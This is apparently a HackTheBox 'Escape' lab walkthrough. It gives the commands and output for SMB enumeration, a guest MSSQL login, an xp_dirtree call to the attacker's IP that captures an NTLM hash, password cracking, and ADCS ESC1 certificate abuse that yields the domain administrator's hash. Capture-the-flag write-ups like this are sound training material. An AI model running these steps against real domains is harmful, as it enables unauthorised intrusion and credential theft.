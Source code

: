```yaml
---
title: HackTheBox-Escape
date: 2024-12-24 23:20:00 +/-TTTT
categories: [boxes, red-teaming]
tags: [MSSQL, ESC1]     # TAG names should always be lowercase
image : /assets/images/Fpq4ay_WAAM3sHF.jpg
---
```


## SMB-enum
    ➜  escape nxc smb 10.10.11.202
    SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)

    ➜  escape smbclient -L \\DC
    Password for [WORKGROUP\root]:

            Sharename       Type      Comment
            ---------       ----      -------
            ADMIN$          Disk      Remote Admin
            C$              Disk      Default share
            IPC$            IPC       Remote IPC
            NETLOGON        Disk      Logon server share 
            Public          Disk      
            SYSVOL          Disk      Logon server share 
    Reconnecting with SMB1 for workgroup listing.


    For new hired and those that are still waiting their users to be created and perms assigned, can sneak a peek at the Database with
    user PublicUser and password GuestUserCantWrite1 .

## MSSQL

    ➜  escape nxc mssql DC -u 'PublicUser' -p 'GuestUserCantWrite1' --local-auth
    MSSQL       10.10.11.202    1433   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
    MSSQL       10.10.11.202    1433   DC               [+] DC\PublicUser:GuestUserCantWrite1 

### access as guest

    ➜  escape impacket-mssqlclient PublicUser:GuestUserCantWrite1@sequel.htb
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Encryption required, switching to TLS
    [*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
    [*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
    [*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
    [*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
    [*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
    [*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
    [!] Press help for extra shell commands
    SQL (PublicUser  guest@master)> 

### MSSQL-enum-abuse

    SQL (PublicUser  guest@master)> SELECT name FROM master.dbo.sysdatabases;
    name     
    ------   
    master   

    tempdb   

    model    

    msdb

    those are all default databases


    ------------   -----   ----   
    SQL (PublicUser  guest@master)> EXEC xp_dirtree '\\10.10.14.4\share', 1, 1
    subdirectory   depth   file   
    ------------   -----   ----
### crack hash

    ➜  escape john sql_svc.hash --wordlist=/usr/share/wordlists/rockyou.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
    Will run 6 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    REGGIE1234ronnie (sql_svc) 

## winrm-enum


    2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
    2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
    2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'

## ADCS

    ➜  escape nxc ldap DC -u 'Ryan.Cooper' -p 'NuclearMosquito3' -M adcs
    SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
    LDAPS       10.10.11.202    636    DC               [+] sequel.htb\Ryan.Cooper:NuclearMosquito3
    ADCS        10.10.11.202    389    DC               [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
    ADCS        10.10.11.202    389    DC               Found PKI Enrollment Server: dc.sequel.htb
    ADCS        10.10.11.202    389    DC               Found CN: sequel-DC-CA

### find vuln

    ➜  escape certipy-ad find -u Ryan.Cooper -p 'NuclearMosquito3' -dc-ip 10.10.11.202 -vulnerable -enabled


    ➜  escape cat 20241224072819_Certipy.txt
    Certificate Authorities
    0
        CA Name                             : sequel-DC-CA
        DNS Name                            : dc.sequel.htb
        Certificate Subject                 : CN=sequel-DC-CA, DC=sequel, DC=htb
        Certificate Serial Number           : 1EF2FA9A7E6EADAD4F5382F4CE283101
        Certificate Validity Start          : 2022-11-18 20:58:46+00:00
        Certificate Validity End            : 2121-11-18 21:08:46+00:00
        Web Enrollment                      : Disabled
        User Specified SAN                  : Disabled
        Request Disposition                 : Issue
        Enforce Encryption for Requests     : Enabled
        Permissions
        Owner                             : SEQUEL.HTB\Administrators
        Access Rights
            ManageCertificates              : SEQUEL.HTB\Administrators
                                            SEQUEL.HTB\Domain Admins
                                            SEQUEL.HTB\Enterprise Admins
            ManageCa                        : SEQUEL.HTB\Administrators
                                            SEQUEL.HTB\Domain Admins
                                            SEQUEL.HTB\Enterprise Admins
            Enroll                          : SEQUEL.HTB\Authenticated Users
    Certificate Templates
    0
        Template Name                       : UserAuthentication
        Display Name                        : UserAuthentication
        Certificate Authorities             : sequel-DC-CA
        Enabled                             : True
        Client Authentication               : True
        Enrollment Agent                    : False
        Any Purpose                         : False
        Enrollee Supplies Subject           : True
        Certificate Name Flag               : EnrolleeSuppliesSubject
        Enrollment Flag                     : PublishToDs
                                            IncludeSymmetricAlgorithms
        Private Key Flag                    : ExportableKey
        Extended Key Usage                  : Client Authentication
                                            Secure Email
                                            Encrypting File System
        Requires Manager Approval           : False
        Requires Key Archival               : False
        Authorized Signatures Required      : 0
        Validity Period                     : 10 years
        Renewal Period                      : 6 weeks
        Minimum RSA Key Length              : 2048
        Permissions
        Enrollment Permissions
            Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                            SEQUEL.HTB\Domain Users
                                            SEQUEL.HTB\Enterprise Admins
        Object Control Permissions
            Owner                           : SEQUEL.HTB\Administrator
            Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                            SEQUEL.HTB\Enterprise Admins
                                            SEQUEL.HTB\Administrator
            Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                            SEQUEL.HTB\Enterprise Admins
                                            SEQUEL.HTB\Administrator
            Write Property Principals       : SEQUEL.HTB\Domain Admins
                                            SEQUEL.HTB\Enterprise Admins
                                            SEQUEL.HTB\Administrator
        [!] Vulnerabilities
        ESC1                              : 'SEQUEL.HTB\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication

## ESC1

    ➜  escape certipy-ad req -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -upn administrator@sequel.htb -ca sequel-dc-ca -template UserAuthentication
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Requesting certificate via RPC
    [*] Successfully requested certificate
    [*] Request ID is 14
    [*] Got certificate with UPN 'administrator@sequel.htb'
    [*] Certificate has no object SID
    [*] Saved certificate and private key to 'administrator.pfx'

OR OR OR

    ➜  escape certipy-ad req -username ryan.cooper -password NuclearMosquito3 -ca sequel-DC-CA -target sequel.htb -template UserAuthentication -upn administrator@sequel.htb    
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Requesting certificate via RPC
    [*] Successfully requested certificate
    [*] Request ID is 15
    [*] Got certificate with UPN 'administrator@sequel.htb'
    [*] Certificate has no object SID

### crack-certipy-hash

    ➜  escape ntpdate -q sequel.htb
    2024-12-24 15:38:16.851156 (-0500) +28800.109132 +/- 0.083870 sequel.htb 10.10.11.202 s1 no-leap

#### faketime

    ➜  escape faketime '2024-12-24 15:38:34' certipy-ad auth -pfx administrator.pfx
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Using principal: administrator@sequel.htb
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'administrator.ccache'
    [*] Trying to retrieve NT hash for 'administrator'
    [*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee

Video Walwalkthrough
[WATCH!](https://youtu.be/Ud5HP6xTJok)